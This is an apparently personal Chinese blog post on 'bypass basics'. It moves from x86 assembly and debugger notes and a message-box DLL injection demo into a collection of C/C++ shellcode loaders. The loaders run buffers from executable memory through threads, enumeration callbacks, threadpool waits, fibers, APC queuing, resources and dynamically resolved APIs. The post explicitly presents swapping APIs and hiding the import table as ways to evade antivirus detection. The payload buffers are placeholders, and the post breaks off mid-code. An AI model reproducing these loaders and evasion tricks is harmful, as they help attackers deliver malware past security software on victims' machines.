title: bypass基础
author: John Jue
date: 2024-04-05 13:29:49
tags:
---
# 汇编代码



还有几个ollydbg的快捷键
```
f2 断点
f8 步过
F7 单步步进,遇到CALL跟进
空格 汇编在此处
```

通过汇编简单加减赋值
```
mov eax,0x00001 ;赋值eax为0x00001
mov eax,ebx ;将ebx赋值给eax
add eax,ebx ;求和赋值给eax
sub eax,ebx ;求商赋值给eax
```

```
BYTE = 8bit
WORD = 16bit
DWORD = 32bit
QWORD = 64bit
```

## 内存寻址
比如
```
mov eax,dword ptr ds:[0x19FF74] ;拿出地址中的值
```


<b>esp,ebp不能乱改，栈要平衡</b>

```
lea eax,dword ptr ds:[0x19FF74] ;只拿地址，不取值
```


```
mov eax,dword ptr ds:[0x19FF84]
mov ebx,dword ptr ds:[0x19FF88]
mov dword ptr ds:[0x19FF84],eax
mov dword ptr ds:[0x19FF88],ebx
lea eax,dword ptr ds:[0x19FF84]
lea eax,dword ptr ds:[ESP+8]
```


## 堆栈



esp栈顶
ebp栈底


## jcc语句

```
jmp 0041B9A5 ;跳转，Z为1时跳转
```



| JCC   | 中文含义         | 英文原意             | 检查符号位                | 典型 C 应用           |
|-------|------------------|----------------------|---------------------------|------------------------|
| JZ/JE | 若为 0 则跳转    | jump if zero; jump if equal | ZF=1                      | if (i == j); if (i == 0); |
| JNZ/JNE | 若不为 0 则跳转 | jump if not zero; jump if not equal | ZF=0               | if (i != j); if (i != 0); |
| JS    | 若为负则跳转     | jump if sign         | SF=1                      | if (i < 0);            |
| JNS   | 若为正则跳转     | jump if not sign     | SF=0                      | if (i > 0);            |
| JP/JPE | 若 1 出现次数为偶数则跳转 | jump if parity (even) | PF=1          | (null)                       |
| JNP/JPO | 若 1 出现次数为奇数则跳转 | jump if not parity (odd) | PF=0      | (null)                       |
| JO    | 若溢出则跳转     | jump if overflow     | OF=1               |  (null)                       |
| JNO   | 若无溢出则跳转   | jump if not overflow | OF=0               |  (null)                       |
| JC/JB/JNAE | 若进位则跳转；若低于则跳转；若不高于等于则跳转 | jump if carry; jump if below; jump if not above equal | CF=1  | if (i < j);          |
| JNC/JNB/JAE | 若无进位则跳转；若不低于则跳转；若高于等于则跳转 | jump if not carry; jump if not below; jump if above equal | CF=0 | if (i >= j);         |
| JBE/JNA | 若低于等于则跳转；若不高于则跳转 | jump if below equal; jump if not above | ZF=1 或 CF=1 | if (i <= j);          |
| JNBE/JA | 若不低于等于则跳转；若高于则跳转 | jump if not below equal; jump if above | ZF=0 或 CF=0 | if (i > j);           |
| JL/JNGE | 若小于则跳转；若不大于等于则跳转 | jump if less; jump if not greater equal | SF != OF | if (si < sj);        |
| JNL/JGE | 若不小于则跳转；若大于等于则跳转 | jump if not less; jump if greater equal | SF = OF  | if (si >= sj);       |
| JLE/JNG | 若小于等于则跳转；若不大于则跳转 | jump if less equal; jump if not greater | ZF != OF 或 ZF=1 | if (si <= sj);      |
| JNLE/JG | 若不小于等于则跳转；若大于则跳转 | jump if not less equal; jump if greater | SF=0F 且 ZF=0 | if(si > sj);         |

## call
```
void system(){
	printf("1");
}
int main(){
	system();
}
```
在汇编中main主函数调用system函数就为call，call也会影响堆栈
pusu提栈，栈顶esp减，pop压栈，栈顶esp加



# C语言

vs studio部分快捷键
```
f9 断点
f5 运行
f10 单步进
f11 跟进call
```

## 空函数

C代码
```
void function() {

}
```
反汇编：
```
00DE1820 55                   push        ebp  
00DE1821 8B EC                mov         ebp,esp  
00DE1823 81 EC C0 00 00 00    sub         esp,0C0h  
00DE1829 53                   push        ebx  
00DE182A 56                   push        esi  
00DE182B 57                   push        edi  
00DE182C 8B FD                mov         edi,ebp  
00DE182E 33 C9                xor         ecx,ecx  
00DE1830 B8 CC CC CC CC       mov         eax,0CCCCCCCCh  
00DE1835 F3 AB                rep stos    dword ptr es:[edi]  
00DE1837 B9 F2 C0 DE 00       mov         ecx,offset _546A47AF_Ctest1@cpp (0DEC0F2h)  
00DE183C E8 E4 FA FF FF       call        @__CheckForDebuggerJustMyCode@4 (0DE1325h)  
```

## 裸函数

```
#include <iostream>
#include <windows.h>

void __declspec(naked) Plus(){

}

int main() {
	Plus();
}
```
汇编实现加
```
#include <iostream>
#include <windows.h>

void __declspec(naked) Plus(int a, int b, int c) {

	__asm {
		//1.提栈
		push ebp
		mov ebp, esp
		sub esp, 0x40

		//2.保存现场，保存寄存器
		push ebx
		push esi
		push edi

		//3.填充缓冲区
		lea edi, dword ptr ds : [ebp - 0x40]
		mov eax, 0xCCCCCCCC
		mov ecx, 0x10
		rep stosd

		//4.函数真正功能
		mov eax, dword ptr ds : [ebp + 0x8]
		add eax, dword ptr ds : [ebp + 0xc]
		add eax, dword ptr dx : [ebp + 0x10]

		//5.恢复现场
		pop edi
		pop esi
		pop ebx

		mov esp,ebp
		pop ebp
		
		ret
	}
}

int main() {
	Plus(5,8,1);
	printf("hello world");
}
```

## 调用约定

```
__cdecl:从右往左入栈，外平栈
__stdcall:从右往左入栈，内平栈
```

## dll编写

```
BOOL WINAPI DllMain(
_In_ HINSTANCE hinstDLL, // 指向自身的句柄
_In_ DWORD fdwReason, // 调用原因
_In_ LPVOID lpvReserved // 隐式加载和显式加载
);
```

注入弹窗dll

### 方法一 dll注入
```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include "Windows.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(0,   L"hello00", L"hello00", MB_OK);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

通过remotedll注入到x86进程


### 方法二 rundll32

rundll32.exe

```
#include <Windows.h>
extern "C" __declspec(dllexport) void rundll(HWND hwnd,HINSTANCE hinst,LPTSTR
lpCmdLine,INT nCmdShow)
{
MessageBox(NULL,TEXT("Test"),TEXT("Rundll32"),MB_OK);
}
```

进入到32位dll生成目录下
```
rundll32 Dll1.dll,rundll
```


# shellcode loader

查看程序导入表
```
C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.16.27023\bin\HostX86\x64>dumpbin.exe /imports D:\code\c\shellcode1\Debug\shellcode1.exe
Microsoft (R) COFF/PE Dumper Version 14.16.27051.0
Copyright (C) Microsoft Corporation.  All rights reserved.


Dump of file D:\code\c\shellcode1\Debug\shellcode1.exe

File Type: EXECUTABLE IMAGE

  Section contains the following imports:

    KERNEL32.dll
                41B000 Import Address Table
                41B220 Import Name Table
                     0 time date stamp
                     0 Index of first forwarder reference

                  5FF WaitForSingleObject
                  104 CreateThread
                  5EE VirtualAlloc
                  1BF FreeLibrary
                  5F6 VirtualQuery
                  2CD GetProcessHeap
                  367 HeapFree
                  363 HeapAlloc
                  277 GetLastError
                  28F GetModuleHandleW
                  2EA GetStartupInfoW
                  381 InitializeSListHead
                  303 GetSystemTimeAsFileTime
                  22D GetCurrentProcessId
                  46D QueryPerformanceCounter
                  3A5 IsProcessorFeaturePresent
                  5B4 TerminateProcess
                  22C GetCurrentProcess
                  594 SetUnhandledExceptionFilter
                  5D5 UnhandledExceptionFilter
                  626 WideCharToMultiByte
                  40F MultiByteToWideChar
                  483 RaiseException
                  39D IsDebuggerPresent
                  231 GetCurrentThreadId
                  2C6 GetProcAddress

    VCRUNTIME140D.dll
                41B0A8 Import Address Table
                41B2C8 Import Name Table
                     0 time date stamp
                     0 Index of first forwarder reference

                   25 __std_type_info_destroy_list
                   1C __current_exception
                   1D __current_exception_context
                   48 memset
                   35 _except_handler4_common
                   2E __vcrt_GetModuleFileNameW
                   2F __vcrt_GetModuleHandleW
                   31 __vcrt_LoadLibraryExW
                   46 memcpy

    ucrtbased.dll
                41B0FC Import Address Table
                41B31C Import Name Table
                     0 time date stamp
                     0 Index of first forwarder reference

                   8E __stdio_common_vsprintf_s
                  2EE _seh_filter_dll
                  197 _initialize_onexit_table
                  2E2 _register_onexit_function
                  10C _execute_onexit_table
                   E8 _crt_atexit
                   E7 _crt_at_quick_exit
                   E0 _controlfp_s
                  566 terminate
                  3C9 _wmakepath_s
                  3E5 _wsplitpath_s
                  549 strcpy_s
                  545 strcat_s
                  476 exit
                  19A _initterm_e
                  199 _initterm
                  162 _get_initial_narrow_environment
                  196 _initialize_narrow_environment
                   DC _configure_narrow_argv
                   81 __setusermatherr
                  2F2 _set_app_type
                  2EF _seh_filter_exe
                   15 _CrtDbgReportW
                   14 _CrtDbgReport
                  111 _exit
                   73 __p__commode
                  2FA _set_new_mode
                   DB _configthreadlocale
                  2E3 _register_thread_local_exe_atexit_callback
                   C5 _c_exit
                   CA _cexit
                   70 __p___argv
                   6F __p___argc
                  57F wcscpy_s
                  2F7 _set_fmode

  Summary

        1000 .00cfg
        1000 .data
        1000 .idata
        1000 .msvcjmc
        3000 .rdata
        1000 .reloc
        1000 .rsrc
        6000 .text
       10000 .textbss
```

## demo
```
#include <iostream>
#include <Windows.h>

//指针执行
//调用的API
//VirtualAlloc：申请内存
//PAGE_EXECUTE_READWRITE：读写执行权限

unsigned char buf[] = "shellcode";

void shellcode()
{
    PVOID p = NULL;
    p = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (p == NULL)
        printf("VirtualAlloc error : %d\n", GetLastError());
    else
        printf("VirtualAlloc successfully\n");
    if (!memcpy(p, buf, sizeof(buf)))
        printf("Write shellcode failed\n");
    else
        printf("Write shellcode successfully\n");

       ((void(*)())p)();
}

int main()
{
    shellcode();
}
```


## 指针执行

```
#include <iostream>
#include <Windows.h>

int main()
{
    unsigned char buf[] = "shellcode";
    void* exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();
    return 0;
}
```

## 汇编执行

```
#include <iostream>
#include <Windows.h>

#pragma comment(linker, "/section:.data,RWE")  //权限，必须有不然报错0xC00000005
unsigned char buf[] = "shellcode";

void function()
{
    __asm
    {
        lea eax, buf;
        call eax;
    }
}

int main() {
    function();
}
```

## 创建线程执行

```cpp
#include <Windows.h>
int main()
{
    int shellcode_size = 0; // shellcode⻓度，可有可无
    DWORD dwThreadId; // 线程ID
    HANDLE hThread; // 线程句柄
    unsigned char buf[] = "shellcode";
    char* shellcode = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    CopyMemory(shellcode, buf, sizeof(buf));
    hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)shellcode, NULL, NULL, &dwThreadId);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

可以通过替换api来进行免杀，比如VirtualAlloc
```
GlobalAlloc
CoTaskMemAlloc
HeapAlloc
RtlCreateHeap
AllocADsMem
ReallocADsMem
```

## 回调函数
CreateThread很敏感，可以用回调函数执行，EnumFontsW系用的比较多
```cpp
#include <Windows.h>
unsigned char shellcode[] = "shellcode";

int main() {
    LPVOID address = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(address, shellcode, sizeof(shellcode));
    HDC dc = GetDC(NULL);
    EnumFontsW(dc, NULL, (FONTENUMPROCW)address, NULL);
    return 0;
}
```

下面一些列都可以
```
EnumTimeFormatsA  //可直接替换EnumFontsW
EnumWindows
EnumDesktopWindows
EnumDateFormatsA
EnumChildWindows
EnumThreadWindows
EnumSystemLocalesA
EnumSystemGeoID
EnumSystemLanguageGroupsA
EnumUILanguagesA
EnumSystemCodePagesA
EnumDesktopsW
EnumSystemCodePagesW
```

## CreateThreadpoolWait加载

```cpp
int main() {
UCHAR buf[] = "shellcode";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof buf, PAGE_EXECUTE_READWRITE,&oldProtect);
HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);
PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(char*)buf, NULL, NULL);
SetThreadpoolWait(threadPoolWait, event, NULL);
WaitForSingleObject(event, INFINITE);
}
```

## Fiber加载

```cpp
int main() {
UCHAR buf[] = "";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof
buf,PAGE_EXECUTE_READWRITE,&oldProtect);
PVOID mainFiber = ConvertThreadToFiber(NULL);
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)(char*)buf,NULL);
SwitchToFiber(shellcodeFiber);
DeleteFiber(shellcodeFiber);
}
```

## QueueUserAPC() + NtTestAlert()

NtTestAlert是未文档化函数，首先定义函数指针，然后使用GetProcAddress获取函数地址
```cpp
typedef DWORD(NTAPI* pNtTestAlert)();
int main() {
UCHAR buf[] = "";
DWORD oldProtect;
BOOL ret = VirtualProtect((LPVOID)buf, sizeof buf,PAGE_EXECUTE_READWRITE,&oldProtect);
pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)(char*)buf;
QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
NtTestAlert();
}
```

## 从资源加载

```
#include <stdio.h>
#include <windows.h>
#include "resource.h"
int main() {
HRSRC Res = FindResource(NULL, MAKEINTRESOURCE(IDR_XXX1), L"xxx");
DWORD Size = SizeofResource(NULL, Res);
HGLOBAL Load = LoadResource(NULL, Res);

void* p = VirtualAlloc(NULL, Size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(p, Load, Size);

((void(*)())p)();
return 0;
}
```

## 隐藏导入表

```
#include <Windows.h>
int main() {
DWORD dwThreadId;
HANDLE hThread;
unsigned char buf[] = "shellcode";
LPVOID szBuffer = VirtualAlloc(NULL, sizeof buf,MEM_COMMIT,PAGE_EXECUTE_READWRITE);
memcpy(szBuffer, buf, sizeof buf );
hThread = CreateThread(NULL, NULL,(LPTHREAD_START_ROUTINE)szBuffer, NULL,
NULL, &dwThreadId);
WaitForSingleObject(hThread, INFINITE);
return 0;
}
```

## LoadLibrary+GetProcAddress

```CPP
#include <Windows.h>

int main() {
    UCHAR buf[] = "shellcode";
    typedef LPVOID(WINAPI* pVirtualAlloc)(LPVOID, DWORD, DWORD, DWORD);
    typedef BOOL(WINAPI* pVirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
    typedef HANDLE(WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
    typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE, DWORD);
    DWORD oldProtect = 0;
    DWORD dwThreadId;
    HMODULE hKernal32 = LoadLibrary(L"Kernel32.dll");
    pVirtualAlloc VirtualAlloc = (pVirtualAlloc)GetProcAddress(hKernal32, "VirtualAlloc"); //拿到VirtualAlloc真正地址
